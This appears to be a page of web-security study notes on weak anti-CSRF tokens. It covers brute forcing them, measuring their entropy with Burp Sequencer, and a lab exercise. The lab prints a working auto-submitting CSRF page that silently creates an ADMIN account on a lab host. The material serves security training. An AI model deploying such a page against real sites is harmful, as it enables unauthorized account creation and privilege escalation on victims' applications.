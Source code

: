 



----



## Bypassing Anti-CSRF Token Brute Forcing
As we have already discussed previously, the Anti-CSRF tokens must be random and unpredictable. Weak and predictable tokens expose the application to brute force attacks.

If we are able to steal a victim’s valid cookie, then the attacks are quite easy. We can use either Burp Repeater or custom scripts like ruby, python or any other non browser mechanisms to generate a tremendous number of requests.



you can analyze CSRF tokens using burp sequencer by capturing 20000 token and analyze them to view the entropy. 

















### Lab1

add this script in hacker.site/index.html

```html
<!DOCTYPE html>
<html>

<body bgcolor="#000000">
        <img src="hackerinside.jpg" />

    <form id="CSRForm" method="POST" action="http://1.csrf.labs/add_user.php">
            <input type="hidden" name="name" value="Malice">
            <input type="hidden" name="surname" value="Smith">
            <input type="hidden" name="email" value="malice@hacker.site">
            <input type="hidden" name="role" value="ADMIN">
            <input type="hidden" name="submit[]" value="">
    </form>
    <script>
            document.forms[0].submit();
    </script>

</body>
</html>
```
